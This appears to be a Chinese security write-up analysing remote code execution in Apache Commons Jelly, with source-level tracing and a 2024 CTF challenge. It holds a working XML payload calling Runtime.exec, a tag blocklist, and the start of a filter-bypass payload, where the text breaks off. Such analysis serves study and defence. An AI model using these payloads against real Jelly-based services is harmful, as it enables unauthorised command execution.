









# Apache Common Jelly浅析-先知社区

> **来源**: https://xz.aliyun.com/news/16104  
> **文章ID**: 16104

---

# Commons-jelly

## Jelly

`Apache Commons Jelly`是一个基于 Java 的轻量级脚本引擎和模板引擎，主要用于解析和执行 XML 格式的脚本。它是 Apache Commons 项目的一部分，旨在提供一种简单的方式来在 Java 应用程序中嵌入脚本逻辑，类似于其它模板模板引擎如`Apache Velocity` 或`Freemarker`，但是从`Jelly`官方文档定义的标签中不难看出，它将`JSTL、Velocity, Ant`等表达式语言借鉴到了一起。正如其它的模板引擎一样，因为支持动态解析的特性，因此在使用时需要**严格限制输入的动态数据**。



## 常见语法

* **`<j:out>`**：将文本或表达式输出到标准输出或指定的输出流。
* **`<j:if>`**：条件判断标签，如果条件为 `true`，则执行子标签。
* **`<j:elseif>`** 和 **`<j:else>`**：在 `<j:if>` 中用于扩展条件判断。
* **`<j:for>`**：循环标签，用于遍历数组或集合。
* **`<j:while>`**：循环标签，用于在给定条件为 `true` 时反复执行。
* **`<j:break>`**：用于跳出循环。
* **`<j:continue>`**：用于跳过当前循环的剩余部分，进入下次循环。
* **`<j:set>`**：设置变量的值。
* **`<j:get>`**：获取变量的值。
* **`<j:include>`**：将其他 Jelly 脚本包含到当前脚本中。
* **`<j:include>`**：与**`<j:when>`**等多条件选择结构
* **`${expression}`**：在标签中使用表达式来动态计算值。
* **`<j:eval>`**：评估和执行给定的表达式或代码块。
* **`<j:script>`**：在 Jelly 脚本中嵌入脚本代码。
* **`<j:printf>`**：格式化输出，类似于 Java 的 `System.out.printf()`。
* **`<j:dynamicTag>`**：动态标签，可以在运行时动态定义和创建标签。
* **`<j:invoke>`**：调用方法或执行操作的标签。
* **`<j:invokeStatic>`**：调用静态方法的标签。
* **`<j:useBean>`**：创建和使用 Java Bean 的标签。
* **`<j:try>`** 和 **`<j:catch>`**：用于异常处理的标签块。
* **`<j:finally>`**：用于定义在 `try` 或 `catch` 块结束时执行的代码。
* **`<j:case>`**：在 `switch` 结构中使用的标签。
* **`<j:switch>`**：实现 `switch` 语句的标签。
* **`<ant:task>`**：与 Apache Ant 集成的标签，用于执行 Ant 任务。
* **`<ant:property>`**：设置或获取 Ant 属性。
* **`<j:tagLibrary>`**：定义一个标签库，注册和使用自定义标签。
* **`<j:foreach>`**：用于迭代集合或数组。
* **`<j:while>`**：执行循环，直到条件不成立。
* **`<j:parse>`**：解析 XML 数据。
* **`<j:transform>`**：应用 XSLT 转换。
* **`<j:toXML>`**：将对象转换为 XML 格式。

部分用例如：

```
<j:set var="myVar" value="Hello World" />

<j:invoke on="${object}" method="methodName">
    <j:arg value="argumentValue" />
</j:invoke>

<j:new var="myObject" class="com.example.MyClass" />
<j:useBean id="beanId" class="com.example.BeanClass" />

<j:invokeStatic className="com.example.ClassName" method="staticMethodName">
    <j:arg value="argumentValue" />
</j:invokeStatic>

<j:choose>
    <j:when test="${condition1}">
    </j:when>
    <j:when test="${condition2}">
    </j:when>
    <j:otherwise>
    </j:otherwise>
</j:choose>

```

## 代码分析

从以上的标签不难看出，`jelly`能使用的标签语法非常丰富，其中不乏有能`调用方法`、`动态new对象`、`invoke直接调用某些方法`等等危险度较高的标签，如以下：

```
<j:jelly xmlns:j="jelly:core" xmlns:util="jelly:util">
    <j:invokeStatic className="java.lang.Runtime" method="getRuntime" var="runtime" />
    <j:invoke on="${runtime}" method="exec">
        <j:arg value="calc" />
    </j:invoke>
</j:jelly>

```

> XML文件通过`invokeStatic`调用了`java.lang.Runtime.getRuntime()`方法，并把它赋予了`runtime`变量，最后通过`invoke`方法调用了`runtime`变量中的`exec`方法，并通过`arg`标签传入参数为`calc`。注：调用的类、方法需为**public**修饰。

远程调用示例代码：

```
package com.example.demo.demos.web;

import org.apache.commons.jelly.JellyContext;
import org.apache.commons.jelly.JellyException;
import org.apache.commons.jelly.Script;
import org.apache.commons.jelly.XMLOutput;
import java.io.UnsupportedEncodingException;
public class jelly {
    public static void main(String[] args) throws JellyException, UnsupportedEncodingException {
        JellyContext context = new JellyContext();
        Script script = context.compileScript("http://127.0.0.1:8888/2.xml");
        script.run(context, XMLOutput.createXMLOutput(System.out));
    }
}

```

以下大致看下整个代码的调用流程和处理标签的时候，是怎么完成`RCE`的触发：

首先`compileScript`方法通过`URL`类获取流数据，最终将输入流转入`parse`方法中，通过`getXMLReader().parse`方法进行`XML`解析，会将`元素名称`、`脚本块内容`、`命名空间上下文`、`行号列号`等信息解析为`Script`类

```
public Script compileScript(String uri) throws JellyException {
        XMLParser parser = this.getXMLParser();
        parser.setContext(this);
        InputStream in = this.getResourceAsStream(uri);
        if (in == null) {
            throw new JellyException("Could not find Jelly script: " + uri);
        } else {
            Script script = null;

            try {
                script = parser.parse(in);
            } catch (IOException var6) {
                throw new JellyException("Could not parse Jelly script", var6);
            } catch (SAXException var7) {
                throw new JellyException("Could not parse Jelly script", var7);
            }

            return script.compile();
        }
    }

        public Script parse(InputStream input) throws IOException, SAXException {
        this.ensureConfigured();
        this.fileName = this.getCurrentURI();
        this.getXMLReader().parse(new InputSource(input));
        return this.script;
    }

```



`Script`类中包含了`XML`文本数据的关键信息，调用`run`方法进一步解析，主要关注点集中在`expression.evaluateRecurse`与`tag.doTag(output)`中。

```
public void run(JellyContext context, XMLOutput output) throws JellyTagException {
        URL rootURL = context.getRootURL();
        URL currentURL = context.getCurrentURL();

        try {
            Tag tag = this.getTag(context);
            if (tag != null) {
                tag.setContext(context);
                this.setContextURLs(context);
                Iterator iter;
                Map.Entry entry;
                String name;
                Expression expression;
                Class type;
                if (tag instanceof DynaTag) {
                    DynaTag dynaTag = (DynaTag)tag;

                    Object value;
                    for(iter = this.attributes.entrySet().iterator(); iter.hasNext(); dynaTag.setAttribute(name, value)) {
                        entry = (Map.Entry)iter.next();
                        name = (String)entry.getKey();
                        expression = (Expression)entry.getValue();
                        Class type = dynaTag.getAttributeType(name);
                        type = null;
                        if (type != null && type.isAssignableFrom(class$org$apache$commons$jelly$expression$Expression == null ? (class$org$apache$commons$jelly$expression$Expression = class$("org.apache.commons.jelly.expression.Expression")) : class$org$apache$commons$jelly$expression$Expression) && !type.isAssignableFrom(class$java$lang$Object == null ? (class$java$lang$Object = class$("java.lang.Object")) : class$java$lang$Object)) {
                            value = expression;
                        } else {
                            value = expression.evaluateRecurse(context);
                        }
                    }
                } else {
                    DynaBean dynaBean = new ConvertingWrapDynaBean(tag);

                    Object value;
                    for(iter = this.attributes.entrySet().iterator(); iter.hasNext(); dynaBean.set(name, value)) {
                        entry = (Map.Entry)iter.next();
                        name = (String)entry.getKey();
                        expression = (Expression)entry.getValue();
                        DynaProperty property = dynaBean.getDynaClass().getDynaProperty(name);
                        if (property == null) {
                            throw new JellyException("This tag does not understand the '" + name + "' attribute");
                        }
                        type = property.getType();
                        value = null;
                        if (type.isAssignableFrom(class$org$apache$commons$jelly$expression$Expression == null ? (class$org$apache$commons$jelly$expression$Expression = class$("org.apache.commons.jelly.expression.Expression")) : class$org$apache$commons$jelly$expression$Expression) && !type.isAssignableFrom(class$java$lang$Object == null ? (class$java$lang$Object = class$("java.lang.Object")) : class$java$lang$Object)) {
                            value = expression;
                        } else {
                            value = expression.evaluateRecurse(context);
                        }
                    }
                }
                tag.doTag(output);
                if (output != null) {
                    output.flush();
                }
                return;
            }
        } finally {
            context.setRootURL(rootURL);
            context.setCurrentURL(currentURL);
        }

    }

```

> 1. **上下文处理**：
>    * 保存了当前上下文中的 `rootURL` 和 `currentURL`，以便在方法执行完后恢复这些值。
>    * 上下文 (`JellyContext`) 是 Jelly 执行时的核心，它维护标签解析时的变量和执行状态。
> 2. **获取并初始化标签 (`Tag`)**：
>    * 通过 `this.getTag(context)` 方法获取当前的标签对象。
>    * 如果标签存在，设置其上下文并初始化它需要的属性。
> 3. **动态标签处理 (`DynaTag`)**：
>    * 检查标签是否是动态标签`DynaTag` ，如果是，则需要额外的`Type`处理
> 4. **普通标签处理 (`DynaBean`)**：
>    * 如果不是动态标签，则将标签包装为一个 `DynaBean` 对象，获取动态标签的属性`DynaProperty`
>    * 如果属性有效，则调用`expression.evaluateRecurse`进行解析，并将解析的结果通过`setAttribute`赋值到`dynaBean`当中。
> 5. **标签执行 (`doTag`)**：
>    * 调用标签的 `doTag` 方法，通过`doTag`执行各自标签的对应逻辑，事实上就是进入不同的`Tag`类当中，执行不同的`doTag`方法。
>    * 如果输出流 (`XMLOutput`) 不为空，执行完毕后刷新输出。

在解析完`XML`内容侯，会分标签节点进行遍历解析，首先遍历的标签是`invokeStatic`，会逐步对`method、className、var`三个属性进行处理，在获取到变量的类型为`Java.lang.String`后，会进入`expression.evaluateRecurse(context)`中。



`evaluateRecurse`会调用`evaluate`方法，首先`method`方法会直接返回`runtime`，随后通过`set`方法放入到`this.instance`当中，因为三个类型最终都是`Java.lang.String`，所以流程都是一样的，取出`key-value`放入，因为`key`都是规定的，因此最终形成的`invokeStatic`如图。

```
public Object evaluateRecurse(JellyContext context) {
        Object value = this.evaluate(context);
        if (value instanceof Expression) {
            Expression expression = (Expression)value;
            return expression.evaluateRecurse(context);
        } else {
            return value;
        }
    }
public class ConvertingWrapDynaBean extends WrapDynaBean {
    public ConvertingWrapDynaBean(Object instance) {
        super(instance);
    }

    public void set(String name, Object value) {
        try {
            BeanUtils.setProperty(this.instance, name, value);
        } catch (Throwable var4) {
            throw new IllegalArgumentException("Property '" + name + "' has no write method");
        }
    }
}

```



当全部遍历放置完成后，会调用`ToTag`方法，在`ToTag`中，判断方法名存在后，最终会通过`className、methodName`调用`loadClass().getMehod()`获取到指定类的方法，最终调用`methodName.invoke()`取得`java.lang.Runtime.getRuntime`赋值到`runtime`变量当中。随后会进入`arg`参数判断，如果存在则会解析处理参数。

```
public void doTag(XMLOutput output) throws JellyTagException {
        try {
            if (null == this.methodName) {
                throw new MissingAttributeException("method");
            }

            this.invokeBody(output);
            Object[] values = this.paramValues.toArray();
            Class[] types = (Class[])((Class[])this.paramTypes.toArray(new Class[this.paramTypes.size()]));
            Method method = this.loadClass().getMethod(this.methodName, types);
            Object result = method.invoke((Object)null, values);
            if (null != this.var) {
                this.context.setVariable(this.var, result);
            }
            ArgTag parentArg = (ArgTag)((ArgTag)this.findAncestorWithClass(class$org$apache$commons$jelly$tags$core$ArgTag == null ? (class$org$apache$commons$jelly$tags$core$ArgTag = class$("org.apache.commons.jelly.tags.core.ArgTag")) : class$org$apache$commons$jelly$tags$core$ArgTag));
            if (null != parentArg) {
                parentArg.setValue(result);
            }
        } catch (ClassNotFoundException var13) {
            throw this.createLoadClassFailedException(var13);
        } catch (NoSuchMethodException var14) {
            throw this.createLoadClassFailedException(var14);
        } catch (IllegalAccessException var15) {
            throw this.createLoadClassFailedException(var15);
        } catch (InvocationTargetException var16) {
            if (null == this.exceptionVar) {
                throw new JellyTagException("method " + this.methodName + " threw exception: " + var16.getTargetException().getMessage(), var16.getTargetException());
            }

            this.context.setVariable(this.exceptionVar, var16.getTargetException());
        } finally {
            this.paramTypes.clear();
            this.paramValues.clear();
        }

    }

```

继续循环，会处理`<j:invoke on="${runtime}" method="exec">`标签，同样就是遍历`on`与`method`属性并放入到`Tag`的`this.instance`中，因为`on`属性是`jelly.expression.jexl`类，在调用`Object value = this.evaluate(context)`的时候，会进入到`JexlExpression#evaluate`，传入值`runtime`从AST语法数的根节点当中获取前面被定义好的`Runtime`类。可以理解过，当使用`${}`这种表达式的时候，走的都是这个流程。后面的`exec`走的就是上面字符串的流程。





最终调用`ToTag`，因为这个节点还存在`arg`参数，因此还会走一次上述字符串的流程，将`calc`返回并放入到`this.instance`当中，参数的`ToTag`会走`ArgTag`中的`doTag`方法，最终通过`parent.addArgument(klass, this.value);`将参数的值和类型加入到父节点即`InvokeTag`当中。

```
public void doTag(XMLOutput output) throws JellyTagException {
        this.invokeBody(output);
        Class klass = null;
        //判断值的类型
        if ("boolean".equals(this.typeString)) {
            klass = Boolean.TYPE;
            this.assertNotNull(this.value);
        } else if ("byte".equals(this.typeString)) {
            klass = Byte.TYPE;
            this.assertNotNull(this.value);
        } else if ("short".equals(this.typeString)) {
            klass = Short.TYPE;
            this.assertNotNull(this.value);
        } else if ("int".equals(this.typeString)) {
            klass = Integer.TYPE;
            this.assertNotNull(this.value);
        } else if ("char".equals(this.typeString)) {
            klass = Character.TYPE;
            this.assertNotNull(this.value);
        } else if ("float".equals(this.typeString)) {
            klass = Float.TYPE;
            this.assertNotNull(this.value);
        } else if ("long".equals(this.typeString)) {
            klass = Long.TYPE;
            this.assertNotNull(this.value);
        } else if ("double".equals(this.typeString)) {
            klass = Double.TYPE;
            this.assertNotNull(this.value);
            //如果值的类型为空，则会调用getClassLoader去加载类型，非基础数据类型，使用类加载器动态加载该类。
        } else if (null != this.typeString) {
            try {
                klass = this.getClassLoader().loadClass(this.typeString);
            } catch (ClassNotFoundException var5) {
                throw new JellyTagException(var5);
            }
        } else if (null == this.value) {
            klass = class$java$lang$Object == null ? (class$java$lang$Object = class$("java.lang.Object")) : class$java$lang$Object;
        } else {
            klass = this.value.getClass();
        }
    //确保value是指定类型kclass的实例
        if (!this.isInstanceOf(klass, this.value)) {
            if (klass.equals(class$java$lang$Class == null ? (class$java$lang$Class = class$("java.lang.Class")) : class$java$lang$Class)) {
                try {
                    this.value = this.getClassLoader().loadClass((String)this.value);
                } catch (ClassNotFoundException var4) {
                    throw new JellyTagException(var4);
                }
            } else {
                this.value = convert(klass, this.value);
            }
        }
        ArgTagParent parent = (ArgTagParent)this.findAncestorWithClass(class$org$apache$commons$jelly$tags$core$ArgTagParent == null ? (class$org$apache$commons$jelly$tags$core$ArgTagParent = class$("org.apache.commons.jelly.tags.core.ArgTagParent")) : class$org$apache$commons$jelly$tags$core$ArgTagParent);
        if (null == parent) {
            throw new JellyTagException("This tag must be enclosed inside an ArgTagParent implementation (for example, <new> or <invoke>)");
        } else {
            //将类型和值加入到父节点当中
            parent.addArgument(klass, this.value);
        }
    }

```

当参数也被加入到父节点`invokeTag`当中后，会执行关于`InvokeTag`的逻辑处理，最终是将上面拿到的`Runtime`与`exec`通过`invokeMethod`触发，导致`RCE`。

```
public void doTag(XMLOutput output) throws MissingAttributeException, JellyTagException {
        if (null == this.methodName) {
            throw new MissingAttributeException("method");
        } else if (null == this.onInstance) {
            throw new MissingAttributeException("on");
        } else {
            this.invokeBody(output);//进行内容解析，会解析子节点的内容
            Object[] values = this.paramValues.toArray();
            Class[] types = (Class[])((Class[])this.paramTypes.toArray(new Class[this.paramTypes.size()]));
            Object result = null;
            try {
                result = MethodUtils.invokeMethod(this.onInstance, this.methodName, values, types);//触发RCE
            } catch (NoSuchMethodException var11) {
                throw new JellyTagException(var11);
            } catch (IllegalAccessException var12) {
                throw new JellyTagException(var12);
            } catch (InvocationTargetException var13) {
                if (null == this.exceptionVar) {
                    throw new JellyTagException("method " + this.methodName + " threw exception: " + var13.getTargetException().getMessage(), var13.getTargetException());
                }
                this.context.setVariable(this.exceptionVar, var13.getTargetException());
            } finally {//清空变量
                this.paramTypes.clear();
                this.paramValues.clear();
            }
            //在当前标签的上下文中查找一个ArgTag类型的祖先标签，并将其转换为ArgTag类型以便后续使用。通过使用一个缓存的类引用（class$org$apache$commons$jelly$tags$core$ArgTag）来优化性能，避免重复加载类的Class对象
            ArgTag parentArg = (ArgTag)((ArgTag)this.findAncestorWithClass(class$org$apache$commons$jelly$tags$core$ArgTag == null ? (class$org$apache$commons$jelly$tags$core$ArgTag = class$("org.apache.commons.jelly.tags.core.ArgTag")) : class$org$apache$commons$jelly$tags$core$ArgTag));
            if (null != parentArg) {
                parentArg.setValue(result);
            }

            if (null != this.var) {
                this.context.setVariable(this.var, result);
            }

        }
    }

```



上文还有一个`invokeBody`频繁出现，没有解释，这个方法主要用于解析节点的内容，比如上面的`arg`参数，这个方法最终也是通过循环调用`script.run`方法，再进行一次解析罢了。



# 国诚杯2024 jelly

源代码：

```
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package org.ctf.jelly;

import java.io.IOException;
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.ParserConfigurationException;
import org.apache.commons.jelly.JellyContext;
import org.apache.commons.jelly.Script;
import org.apache.commons.jelly.XMLOutput;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;
import org.w3c.dom.Document;
import org.xml.sax.SAXException;

@Controller
public class IndexController {
    public IndexController() {
    }

    private static Boolean check(String uri) throws IOException, ParserConfigurationException, SAXException {
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        dbf.setNamespaceAware(true);
        DocumentBuilder builder = dbf.newDocumentBuilder();
        Document doc = builder.parse(uri);
        int tag1 = doc.getElementsByTagNameNS("*", "expr").getLength();
        int tag2 = doc.getElementsByTagNameNS("*", "import").getLength();
        int tag3 = doc.getElementsByTagNameNS("*", "include").getLength();
        int tag4 = doc.getElementsByTagNameNS("*", "invoke").getLength();
        int tag5 = doc.getElementsByTagNameNS("*", "invokeStatic").getLength();
        int tag6 = doc.getElementsByTagNameNS("*", "new").getLength();
        int tag7 = doc.getElementsByTagNameNS("*", "parse").getLength();
        int tag8 = doc.getElementsByTagNameNS("*", "set").getLength();
        int tag9 = doc.getElementsByTagNameNS("*", "setProperties").getLength();
        int tag10 = doc.getElementsByTagNameNS("*", "out").getLength();
        int tag11 = doc.getElementsByTagNameNS("*", "useBean").getLength();
        return tag1 <= 0 && tag2 <= 0 && tag3 <= 0 && tag4 <= 0 && tag5 <= 0 && tag6 <= 0 && tag7 <= 0 && tag8 <= 0 && tag9 <= 0 && tag10 <= 0 && tag11 <= 0 ? true : false;
    }

    @RequestMapping({"/"})
    @ResponseBody
    public String Index() {
        return "Try to eat jelly";
    }

    @RequestMapping({"/jelly"})
    @ResponseBody
    public String Jelly(@RequestParam(required = true) String uri) {
        try {
            if (check(uri)) {
                JellyContext context = new JellyContext();
                Script script = context.compileScript(uri);
                script.run(context, XMLOutput.createXMLOutput(System.out));
                return "Tasty Jelly :)";
            }
        } catch (Exception var4) {
        }

        return "no way :(";
    }
}

```

> 可以输入uri直接触发上面所说的jelly，但是增加了过滤，过滤了我们部分的危险标签`invokeStatic`、`invoke`等等

但是由于`jelly`是支持`${}`表达式的使用，因此可以通过命名一个存在的类，通过已存在的类执行`Java`脚本触发命令执行的函数。

```
<j:jelly xmlns:j="jelly:core">
    <j:getStatic var="str"
                 className="org.apache.commons.jelly.servlet.JellyServlet" field="REQUEST"/>
